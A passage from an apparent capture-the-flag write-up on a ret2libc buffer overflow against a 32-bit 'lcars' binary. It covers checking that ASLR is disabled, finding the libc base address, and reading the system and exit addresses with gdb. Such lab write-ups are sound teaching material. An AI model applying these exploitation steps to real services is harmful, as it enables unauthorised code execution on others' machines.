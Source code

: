 <br />
<img src="{{ site.img_path }}/enterprise_writeup/Enterprise_094.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/enterprise_writeup/Enterprise_095.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/enterprise_writeup/Enterprise_096.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/enterprise_writeup/Enterprise_097.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/enterprise_writeup/Enterprise_098.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

On the victim machine I check that the value of the **`randomize_va_space`** file is set to **0** (**disabled**) to verify that **AXLR** is disabled, I can create an oneline to validate it too. Then I can search with `gdb` the `system` and `exit` addresses (since I will have to use the **[`ret2libc` technique to exploit the Buffer Overflow](https://roman1.gitbook.io/blog/stack-exploitation/32-bit-return2libc){:target="_blank"}**) and I can also [search the `sh` string with `gdb`](https://stackoverflow.com/questions/6637448/how-to-find-the-address-of-a-string-in-memory-using-gdb){:target="_blank"}. I have to <ins>be careful with the values of the addresses</ins> I got when using it in the script, since the binary is **32 bits** and I can use the **[`p32`](https://ssst0n3.github.io/post/%E7%BD%91%E7%BB%9C%E5%AE%89%E5%85%A8/CTF/pwn/pwntools/p32-or-p64-or-struct.html){:target="_blank"}** library or `struct` to convert the addresses. I make a first test of my exploit to verify the connectivity with the service and everything goes well for the moment.

> **[struct](https://docs.python.org/3/library/struct.html){:target="_blank"}**: This module converts between Python values and C structs represented as Python bytes objects.

> Our computers by default uses **little-endian** format. So if we have a function **main** and it’s address is `0x555555400992` in little endian format it will be: `\x92\x09\x40\x55\x55\x55` but it is 6 bytes. But our modern machines are 64bits. That means 8 bytes. So after padding it will be `\x92\x09\x40\x55\x55\x55\x00\x00`. `p64()` does exactly this for us. We can also `pack` as big endian using `endian=’big’` parameter in packing functions. If the binary is 32 bits, then we use `p32()`. It converts the address to 32 bits/4 bytes. the p32(), p64() use `struct.pack()` function underneath. And any characters or strings we use we need to use it as bytecode e.g. `payload = b”A”*40 + p64(main_address)`.

> **Victime Machine:**

```bash
cat /proc/sys/kernel/randomize_va_space 
#    --> 0

ldd /bin/lcars | grep libc
ldd /bin/lcars | grep libc | awk 'NF{print $NF}' | tr -d '()'
for i in $(seq 1 100); do ldd /bin/lcars | grep libc | awk 'NF{print $NF}' | tr -d '()'; done
#    --> 0xf7e32000        <-- libc base address static!    --> NO AXLR ACTIVE!!
```
> **Attacker Machine:**

```bash
# TARGET:     ret2libc -> system_addr -> exit_addr -> bin_sh
gdb ./lcars_binary
    /> help p
#      --> print, inspect, p
    /> p system
#      --> 0xf7c4dd10
    /> p exit
#      --> 0xf7c3d230
    /> help info
#      info, inf, i
#      Generic command for showing things about the program being debugged.
#        info proc -- Show additional information about a process.
    /> help info proc
```
